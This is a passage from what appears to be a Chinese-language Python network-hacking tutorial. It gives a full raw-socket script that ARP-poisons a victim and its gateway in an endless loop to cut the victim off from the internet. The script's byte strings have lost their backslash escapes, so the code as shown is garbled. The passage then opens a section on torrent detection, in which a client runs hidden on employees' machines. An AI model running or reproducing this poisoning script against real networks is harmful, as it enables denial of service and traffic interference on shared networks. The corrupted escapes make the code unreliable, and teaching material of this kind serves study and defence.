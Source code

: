 在这种攻击中，受害者将保持连接到网关，但将无法与外部网络通信。简单地说，受害者将保持连接到路由器，但将无法浏览互联网。这种攻击的原理与 ARP 缓存中毒相同。攻击将向受害者发送 ARP 回复数据包，该数据包将使用另一个 MAC 地址将受害者的 ARP 缓存中的网关的 MAC 地址更改为另一个 MAC。在网关中也是同样的操作。

代码与 ARP 欺骗的代码相同，只是有一些更改，如下所述：

```py
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = 'x48x41x43x4bx45x52'

victmac ='x00x0Cx29x2Ex84x7A'
gatemac = 'x00x50x56xC0x00x08'
code ='x08x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

htype = 'x00x01'
protype = 'x08x00'
hsize = 'x06'
psize = 'x04'
opcode = 'x00x02'

gate_ip = '192.168.0.1'
victim_ip = '192.168.0.11' 
gip = socket.inet_aton ( gate_ip )
vip = socket.inet_aton ( victim_ip )

arp_victim = eth1+htype+protype+hsize+psize+opcode+sor+gip+victmac+vip
arp_gateway= eth2+htype+protype+hsize+psize+opcode+sor+vip+gatemac+gip

while 1:
  s.send(arp_victim)
  s.send(arp_gateway)
```

运行`netdiss.py`。我们可以看到代码中只有一个更改：`sor = 'x48x41x43x4bx45x52'`。这是一个随机的 MAC，因为这个 MAC 不存在。

为了进行 ARP 缓存中毒攻击，受害者应该在 ARP 缓存中有网关的真实条目。

您可能会想为什么我们使用了`'x48x41x43x4bx45x52'`MAC。将其转换为 ASCII，您将得到答案。

# 种子检测

网络管理员的主要问题是阻止用户机器上种子的使用。有时，小型组织或初创公司没有足够的资金购买防火墙来阻止种子的使用。在组织中，用户使用种子下载电影、歌曲等，这会占用大量带宽。在本节中，我们将看到如何使用 Python 程序消除这个问题。我们的程序将在种子程序运行时检测种子。

该概念基于客户端-服务器架构。服务器代码将在管理员机器上运行，客户端代码将在用户的机器上以隐藏模式运行。当用户使用种子时，客户端代码将通知服务器机器。

首先，看看以下服务器代码，并尝试理解代码。代码名称是`torrent_detection_server.py`：
